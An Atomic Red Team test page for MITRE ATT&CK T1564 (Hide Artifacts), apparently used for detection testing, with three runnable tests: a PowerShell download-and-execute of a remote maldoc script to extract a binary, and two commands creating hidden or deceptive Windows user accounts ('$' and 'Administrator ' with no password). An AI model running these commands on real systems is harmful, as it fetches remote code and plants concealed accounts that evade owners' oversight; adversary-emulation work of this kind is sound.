 # T1564 - Hide Artifacts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564)
<blockquote>Adversaries may attempt to hide artifacts associated with their behaviors to evade detection. Operating systems may have features to hide various artifacts, such as important system files and administrative task execution, to avoid disrupting user work environments and prevent users from changing files or features on the system. Adversaries may abuse these features to hide artifacts such as files, directories, user accounts, or other system activity to evade detection.(Citation: Sofacy Komplex Trojan)(Citation: Cybereason OSX Pirrit)(Citation: MalwareBytes ADS July 2015)

Adversaries may also attempt to hide artifacts associated with malicious behavior by creating computing regions that are isolated from common security instrumentation, such as through the use of virtualization technology.(Citation: Sophos Ragnar May 2020)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract binary files via VBA](#atomic-test-1---extract-binary-files-via-vba)

- [Atomic Test #2 - Create a Hidden User Called "$"](#atomic-test-2---create-a-hidden-user-called-)

- [Atomic Test #3 - Create an "Administrator " user (with a space on the end)](#atomic-test-3---create-an-administrator--user-with-a-space-on-the-end)


<br/>

## Atomic Test #1 - Extract binary files via VBA

auto_generated_guid: 6afe288a-8a8b-4d33-a629-8d03ba9dad3a

This module extracts a binary (calc.exe) from inside of another binary. 

In the wild maldoc authors will use this technique to hide binaries inside of files stored 
within the office document itself. An example of this technique can be seen in sample

f986040c7dd75b012e7dfd876acb33a158abf651033563ab068800f07f508226

This sample contains a document inside of itself. Document 1 is the actual maldoc itself, document 2
is the same document without all the malicious code. Document 1 will copy Document 2 to the file system
and then "peek" inside of this document and pull out the oleObject.bin file. Contained inside of this
oleObject.bin file is a payload that is parsed out and executed on the file system.
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
$macro = [System.IO.File]::ReadAllText("PathToAtomicsFolder\T1564\src\T1564-macrocode.txt")
$macro = $macro -replace "aREPLACEMEa", "PathToAtomicsFolder\T1564\bin\extractme.bin"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\extracted.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Create a Hidden User Called "$"

auto_generated_guid: 2ec63cc2-4975-41a6-bf09-dffdfb610778

Creating a user with a username containing "$"
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user $ ATOMIC123! /add /active:yes
```

#### Cleanup Commands:
```cmd
net user $ /DELETE 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Create an "Administrator " user (with a space on the end)

auto_generated_guid: 5bb20389-39a5-4e99-9264-aeb92a55a85c

Creating a user with a username containing with a space on the end
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "Administrator " -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "Administrator " 2>&1 | out-null
```





<br/>
